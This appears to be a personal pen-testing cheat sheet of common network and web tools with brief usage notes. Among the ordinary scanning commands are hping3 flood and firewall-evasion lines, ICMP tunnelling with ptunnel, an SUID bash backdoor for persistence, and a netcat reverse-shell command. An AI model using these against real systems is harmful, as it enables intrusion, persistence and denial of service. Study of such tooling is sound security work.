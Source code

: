 This is list over the most used commands when pen testing. This is just for a quick glance and look up table, with the description of what the commands does. It's taken from [here](https://www.youtube.com/watch?v=gL4j-a-g9pA&list=WL&index=28).
Some of the commands, have their own and more detailed description in the "tools" folder.

1. ping
The ping command, is for checking if a host is up. We can either send the default size package (64 bit) or customize it:
```
ping -s <size of package> <host>
```
When we are sending larger sizes of packages, we are testing the capabilities of the firewall of the host.
We can also flood the host with the `-f` flag

2. iftop
Iftop is used for monitoring real-time bandwidth usage on the network interfaces in Linux. I use it, when checking for the "flood" command in ping, to see if it's to much for the network:
```
iftop
```

3. hping3
This is a more detailed version of "ping", this allows us also to flood on a specific port:
```
hping3 -S --flood -V -p <port> <host>
```
Here we are using the flags:
- **S**: This is for specifying that we are using a TCP package
- **flood**: It's for telling that we are flooding the network
- **V**: For verbose output
- **p**: For the specified port
If we want a trace-route, to see the network path we are taking to get to a website we can also use hping3 to do this:
```
hping3 --traceroute -V -1 <website>
```
Here the `-1` specifies that we are using a IMCP package. If we are getting blocked by the firewall we can remove the `-1` and do this instead `-p 80 -S`, here we are using the TCP package.
If we really want to evade firewall rules, we can use the command:
```
hping3 --tracerout -V -p 80 -S -A --baseport 1337 <website>
```
Here we are getting the `traceroute`, with verbose mode, sending traffic to port 80, using the TCP package, while sending the "ACK" flag, and telling that our baseport is 1337.

4. ptunnel
ptunnel is also a more advanced version of ping, here we can send TCP packages over the IMCP tunnel for ECHO and REPLY. (This requires two machines).
**Target side instruction**:
- Run: `ptunnel`

**Attacker side instruction**:
- Run: `ptunnel -p <target ip> -lp <port> -da <dest address> -dp <dest port>`
	- `-p` is the proxy address of our target.
	- `-lp` for specifying our local port. 
	- `-da` for our destination address. (also our target)
	- `-dp` for our destination port (can use port 22)
We can now try to ssh into the target machine using the command:
```
ssh -p <port> <username>@<ip address>
```
This can be used to evade firewalls, that disallows this type of traffic.

5. tcpdump
This tool is used for monitoring real time tcp packages and visualizing them. We run this command:
```
tcpdump -i any <package>
```
Here the flags are:
- `-i`: For interface
- Here we normally specify the package to be imcp.

We can also store files with the dump on our local network with the command:
```
tcpdum -w <filename>.pcap -i <internet interface>
```
Where the internet interface is normally `eth0`
And now we can analyze the traffic:
```
tcpdump -r <filename>.pcap
```

6. nmap
This is one of the commands, that I'm running on a daily basis, this is for scanning entire networks, website, server, etc.
For scanning a network for mapping we are using:
```
nmap <target network>
```
There are **a lot** of flags in nmap (here are some that I personally use a lot):
- `-sn` for discovering hosts
- `-sV` for service discovery
- `-O` for OS detection
- `-Pn` for disabling ping probing
- `-sL` for quick host name scanning
- `--script vuln/malware` this is the standard flag for script, there are **a lot** more scripts 
- `-A` for scanning for **everything** (this takes a while)
- `-f` for fragmenting the packages (harder detection)
- `--source-port` for even more evading detection (53 for dns)
- `-D RND:10` for scanning with decoys (advance), here we are generating 10 different ip addresses, and say we are scanning from them.

8. masscan
Masscan is for scanning massive amounts of network, or just a large amount of networks. In the command, and flags, it's similar to nmap:
```
masscan -p <ports> <network> --rate=1000
```
But masscan also allows us to scan subnet ranges of networks, this can come in handy, when we are unsure of what we are dealing with:
```
masscan <subnet range> -p0-65535 --rate=10000
```

9. sl
The ls command is one of common command in Linux, this is listing files, folders, etc. in the command line, but there is also a `sl` command, this is for mistyping the ls command, and it brings a steam locomotive to the terminal. This is mostly for the fun of it.

11. whois
The `whois` command is also a command that I use on a daily basis. This is a command that tells us everything there is to know about a website:
```
whois <website>
```

12. whatweb
The `whatweb` command is command that looks a lot like the whois command, but it gives a better overview of what the website is using, and what it's build on (server, powered by), all the juicy stuff, that we are loving:
```
whatweb <website>
```

13. curl
The `curl` command is a default command that is in _almost_ every distro that we are downloading, that can also be very helpful, since we can display header information from the request that we are making to a website.
```
curl <website>
```

14. Nikto
Nikto is a great, all in one scanner for a fast overview of a web app:
```
nikto -h <website>
```
This gives us a quick view of what is wrong with the website.

15. gobuster
Go buster is great for subdir hunting, and I use is profoundly:
```
gobuster dir <website> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
We can also discover other things than directories, maybe we also want to enumerate dns, we can use that with `dns` instead of `dir`

You can also use your own wordlists or take some from github.

16. sublist3r
Sublist3r is a tool, that's like gobuster, also for subdirectory enumeration. This is actually a tool that I use more than gobuster, we are using the command:
```
sublist3r -d <domain>
```

17. wpscan
If we pen testing a WordPress site, then wpscan is a must have tool in the toolbox. This is where we are scanning WordPress sites for vulnerabilities in its plugins, the users on the site, the themes and much more. 
But for this we need a token (it's free on their website):
```
wpscan --url <domain> --api-token <api token>
```
This gives a very nice output with colors of things that's wrong or vulnerable.

18. amass
Amass is also a tool that we can use for sub domain enumeration, this gives us a lot more information about the website, and also what services it uses (mails, etc.):
```
amass enum -d <domain>
```

19. bash (backdoor)
This is going  to be a little introduction on setting up a backdoor on a remote shell (or you own)

We are going to be in the remote shell (with admin privileges) and running:
```
chmod +s /bin/bash
```
Here we are `chmod` "changing modification" of the unique `+s` ssid, on the bash shell on the remote shell. This is so that if they in the future are changing the permission of the compromised user, we can easily gain root privileges again by running the command:
```
bash -p
```

20. tshark
tshark is the terminal brother of wireshark, since that wireshark can be a bit overwhelming to use for first time users.
We can run tshark with:
```
tshark -V -c <#packages to capture> -i <internet interface>
```
If this seems overwhelming at first, we can filter in the packages:
```
tshark -Y'http.request.method == "GET"' -i <internet interface>
```
Where `-Y` is the filter that we are applying.
We can also send the output to a file, for further analysis:
```
tshark -i <internet interface> -w <filename>.pcap
```
And analyze it with:
```
tshark -r <filename>.pcap -qz enpoints,ip
```

22. tmux
Tmux is a "terminal multiplexer", this means that we can use multiple terminals at the same time.
Tmux has a lot of different commands, and can be overwhelming as a beginner, but it's worth the investment of time.
Here is a [guide](https://www.linuxtrainingacademy.com/tmux-tutorial/).

23. nc
NetCat also known as nc, is a great tool for  network connections, to install it we use:
```
apt install netcat-traditional
```
When using netcat on both the _target machine_ and the _attacker machine_. 

We can run a reverse shell:
**Attackers side**:
We are running:
`nc -lvp <port running on>` here we are waiting for the reverse shell, since on a reverse shell, the target is reaching out for us.

**Targets side**:
We are running:
`nc -e /bin/sh <ip address> <port>`
Here we are reaching out to the ip address and port, and creating a /bin/sh shell on the attackers machine.

We can also set up a network server:
**Attacker machine**: `nc -lvp <port>`
**Target machine**: `nc -v <ip address> <port>`
